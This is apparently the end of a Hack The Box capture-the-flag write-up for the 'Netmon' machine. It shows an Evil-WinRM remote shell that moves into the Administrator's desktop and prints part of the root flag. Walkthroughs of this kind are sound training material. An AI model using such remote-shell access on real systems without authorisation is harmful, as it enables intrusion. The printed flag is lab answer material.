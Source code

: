 ```bash wrap=false
*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
*Evil-WinRM* PS C:\Users\pentest\Documents> cd ..
*Evil-WinRM* PS C:\Users\pentest> cd ..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2019  10:44 PM                Administrator
d-----        9/20/2025   4:48 AM                pentest
d-r---        9/20/2025   4:46 AM                Public


*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         2/3/2019   7:08 AM                Contacts
d-r---         2/2/2019  11:35 PM                Desktop
d-r---         2/3/2019   7:08 AM                Documents
d-r---         2/3/2019   7:08 AM                Downloads
d-r---         2/3/2019   7:08 AM                Favorites
d-r---         2/3/2019   7:08 AM                Links
d-r---         2/3/2019   7:08 AM                Music
d-r---         2/3/2019   7:08 AM                Pictures
d-r---         2/3/2019   7:08 AM                Saved Games
d-r---         2/3/2019   7:08 AM                Searches
d-r---        2/25/2019  10:06 PM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/19/2025   5:03 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b008c657ce1821d3b...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/177)

---